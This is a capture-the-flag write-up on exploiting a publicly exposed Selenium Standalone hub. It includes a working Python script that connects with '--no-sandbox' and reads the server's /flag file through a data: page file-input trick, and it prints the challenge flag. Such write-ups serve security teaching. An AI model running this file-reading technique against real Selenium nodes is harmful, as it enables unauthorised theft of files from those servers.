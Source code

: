 We are given access to the challenge server (http://challs.nusgreyhats.org:12323). Visiting the website, we are greeted with the landing page of a service known as Selenium Standalone.

![pic1](https://user-images.githubusercontent.com/7780255/173223634-680035cf-2376-4e2d-bb6c-29aabd6ce4c2.PNG)

Snooping around the landing page leads us to the console page, where we are able to select the browser driver to run using a dropdown menu. However, all of the options available seem to not work, with the **chrome** option giving us a rather detailed error. 

![image](https://user-images.githubusercontent.com/7780255/173223716-3c8b9a1d-74e4-43e8-a4dc-73020f73d084.png)

Looking at the Dockerfile confirms our suspicions that indeed, only chromedriver was installed on the server. The driver seems unable to start because of some error.

```
from selenium/standalone-chrome:3.141.59

USER seluser

RUN wget https://dl.google.com/linux/direct/google-chrome-stable_current_amd64.deb -P /tmp \
    && sudo dpkg -i /tmp/google-chrome-stable_current_amd64.deb \
    && rm /opt/selenium/chromedriver-94.0.4606.61 /tmp/google-chrome-stable_current_amd64.deb \
    && CHROME_MAJOR_VERSION=$(google-chrome --version | sed -E "s/.* ([0-9]+)(\.[0-9]+){3}.*/\1/") \
    && CHROME_DRIVER_VERSION=$(wget --no-verbose -O - "https://chromedriver.storage.googleapis.com/LATEST_RELEASE_${CHROME_MAJOR_VERSION}") \
    && echo "Using chromedriver version: "$CHROME_DRIVER_VERSION \
    && wget --no-verbose -O /tmp/chromedriver_linux64.zip https://chromedriver.storage.googleapis.com/$CHROME_DRIVER_VERSION/chromedriver_linux64.zip \
    && unzip /tmp/chromedriver_linux64.zip -d /opt/selenium \
    && mv /opt/selenium/chromedriver /opt/selenium/chromedriver-94.0.4606.61

COPY ./flag /flag
```

Furthermore, it seems that the flag has simply been copied to the root directory of the docker instance, which we will need to obtain in some way to get the flag.

Snooping around with Burpsuite, we find that the console simply sends post requests to the API, with the request body containing options such as which driver to run.

![image](https://user-images.githubusercontent.com/7780255/173224280-27881b1b-8409-4101-8363-fa1a30d946b8.png)

Perhaps we need to add more options to resolve the error. With a bit of googling, we find that we can establish a direct connection to the API and start a chromium instance using webdriver.remote. However, using the same payload only resulted in the same error. While fiddling with selenium startup options, apparently enabling the 
`--no-sandbox` allows us to establish a connection! It seems that the service was running in root, and so encountered this error `Running as root without --no-sandbox is not supported.`, which adding the option helped us resolve.

```
chrome_options = Options()
chrome_options.add_argument('--no-sandbox')
driver = webdriver.Remote("http://challs.nusgreyhats.org:12323/wd/hub", DesiredCapabilities.CHROME, options=chrome_options)
```

Now, we need to exfiltrate the file with this connection. Thankfully, there is an extremely helpful repo (https://github.com/JonStratton/selenium-node-takeover-kit) targetted at Selenium nodes like this one. Incorporating the packages provided (namely download.py), we are able to locate the flag file and download it to our local computer.

```
from selenium import webdriver
from selenium.webdriver.common.desired_capabilities import DesiredCapabilities
from selenium.webdriver.chrome.options import Options
from selenium.webdriver.remote.file_detector import UselessFileDetector
import base64, getopt, sys

def get_file_contents(driver, remote_file):
    decoded_contents = None
    driver.get('data:text/html;charset=utf-8,<html><input id=f type=file onchange="rf(event)"><script>var inf; var rf = function(e) { var inp = e.target; var read = new FileReader(); read.onload = function(){inf = read.result;}; read.readAsDataURL(inp.files[0]);}</script></html>')
    driver.find_element_by_id('f').send_keys(remote_file) # Load local file into input field (and therefor "inf")
    js_return = driver.execute_script('return(inf)')   # Dump the contents of "inf"
    if js_return:
        decoded_contents = base64.b64decode(js_return.split(',')[1])
    else:
        print('Cannot Read: %s' % remote_file)
    return decoded_contents

chrome_options = Options()
chrome_options.add_argument('--no-sandbox')
driver = webdriver.Remote("http://challs.nusgreyhats.org:12323/wd/hub", DesiredCapabilities.CHROME, options=chrome_options)

local_file = "flag2"
remote_file = "/flag"
driver.file_detector = UselessFileDetector()

try:
    file_contents = get_file_contents(driver, remote_file)
    if local_file:
        f = open(local_file, 'w+b')
        f.write(file_contents)
        f.close()
    else:
        print(file_contents.decode('ascii'))
finally:
    driver.quit()

sys.exit(0)
```

Now, with the file in our hands, we can run a `strings flag2 | grep {` to get the flag `grey{publ1c_53l3n1um_n0d3_15_50_d4n63r0u5_8609b8f4caa2c513}`!
